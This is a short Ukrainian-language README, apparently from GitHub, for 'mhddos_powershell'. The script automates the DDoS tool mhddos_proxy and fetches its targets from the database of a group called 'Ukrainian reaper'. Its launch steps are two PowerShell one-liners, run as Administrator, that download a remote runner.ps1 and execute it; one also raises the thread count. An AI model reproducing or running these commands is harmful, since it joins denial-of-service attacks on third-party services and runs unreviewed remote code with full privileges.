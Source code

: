 # mhddos_powershell

Скрипт автоматизує роботу mhddos_proxy, автоматично підтягує цілі з бази даних Українського женця. 

Вимоги:

  Скрипт потребує тільки встановленої Windows 7 або новішої версії. Встановлення додаткового ПЗ не потрібно.

Запуск (Команда виконується в терміналі PowerShell з правами Адміністратора):

  $ScriptBlock = [scriptblock]::Create((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mErlin-sp/mhddos_powershell/master/runner.ps1')); Invoke-Command -ScriptBlock $ScriptBlock -ArgumentList ''
  
Після --ArgumentList є можливість вказати будь-які параметри для mhddos_proxy. Наприклад, вкажемо кількість потоків 100:
  
  $ScriptBlock = [scriptblock]::Create((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/mErlin-sp/mhddos_powershell/master/runner.ps1')); Invoke-Command -ScriptBlock $ScriptBlock -ArgumentList '-t 100'
  
